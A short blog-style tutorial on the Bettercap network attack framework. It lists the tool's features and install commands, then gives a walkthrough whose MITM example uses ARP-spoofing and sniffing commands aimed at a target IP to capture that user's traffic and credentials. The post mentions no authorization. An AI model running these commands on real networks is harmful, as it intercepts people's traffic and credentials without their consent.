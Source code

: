 ```yaml
---
title: "Bettercap"
date: 2022-07-02T18:16:26Z
draft: false
author: "Dark-Kernel"
post_image: "https://www.bettercap.org/logo.png"
---
```


# Bettercap Framework


Bettercap is a powerfull, easily extensible and portable framework written in Go which aims to offer to security researches, redteamers and reverse engineers an easy to use, all-in-one solution with all the features they might possibly need for performing reconnaissance and attacking WiFi networks, Bluetooth Low Energy devices, wireless HID devices and IPv4/IPv6 networks.

![bettercap_pic](https://www.bettercap.org/logo.png)

                   
 ## Main Features

 * **WiFi** networks scanning, [deauthentication attack](https://www.evilsocket.net/2018/07/28/Project-PITA-Writeup-build-a-mini-mass-deauther-using-bettercap-and-a-Raspberry-Pi-Zero-W/), [clientless PMKID association attack](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/) and automatic WPA/WPA2 client handshakes capture.
* **Bluetooth Low Energy** devices scanning, characteristics enumeration, reading and writing.
* 2.4Ghz wireless devices scanning and **MouseJacking** attacks with over-the-air HID frames injection (with DuckyScript support).
* Passive and active IP network hosts probing and recon.
* **ARP, DNS, NDP and DHCPv6 spoofers** for MITM attacks on IPv4 and IPv6 based networks.
* **Proxies at packet level, TCP level and HTTP/HTTPS** application level fully scriptable with easy to implement **javascript plugins**.
* A powerful **network sniffer** for **credentials harvesting** which can also be used as a **network protocol fuzzer**.
* A very fast port scanner.
* A powerful [REST API](https://www.bettercap.org/modules/core/api.rest/) with support for asynchronous events notification on websocket to orchestrate your attacks easily.
* **A very convenient [web UI](https://www.bettercap.org/usage/#web-ui).**


Get More infomation on their official website [More!](https://www.bettercap.org/modules/)


## Installation

To install bettercap use the following commands:

~ Arch

	sudo pacman -S bettercap

~ Kali

	sudo apt install bettercap

~ Others use their official repository

	https://github.com/bettercap/bettercap


## Basic stuffs


First fireup you bettercap on terminal

	sudo bettercap

![bettercap_start](/btr_start.png)



Search devices on your network

	net.probe on

	net.show

  

You can perform MITM attack also 
### Example

	set arp.spoof.fullduplex true

 	set arp.spoof.targets <target ip>

 	arp.spoof on

 	net.sniff on


Now you will get all the data where the target visits. including the credentials.



# 
## We can use web view also

   1. First install ui

 	ui.update

   2. Then 

 	https-ui

 Now you will get a link visit that page and explore.


        
## **Thanks for reading.**

